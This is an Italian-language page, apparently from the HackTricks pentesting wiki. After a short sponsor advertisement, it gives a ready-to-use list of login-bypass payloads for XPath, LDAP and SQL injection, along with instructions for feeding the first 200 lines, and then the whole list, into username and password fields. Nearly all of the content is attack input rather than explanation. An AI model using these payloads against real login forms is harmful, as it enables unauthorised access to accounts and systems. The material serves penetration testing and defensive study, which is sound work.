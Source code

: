 <figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche ed esploitabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti permettano di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Questa lista contiene **payload per bypassare il login tramite XPath, LDAP e SQL injection** (in quest'ordine).

Il modo per utilizzare questa lista è mettere le **prime 200 righe come nome utente e password.** Poi, inserisci l'intera lista nel campo del nome utente per primo e poi in quello della password, mentre metti una password (come _Pass1234._) o un nome utente conosciuto (come _admin_).
```
admin
password
1234
123456
root
toor
test
guest
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
```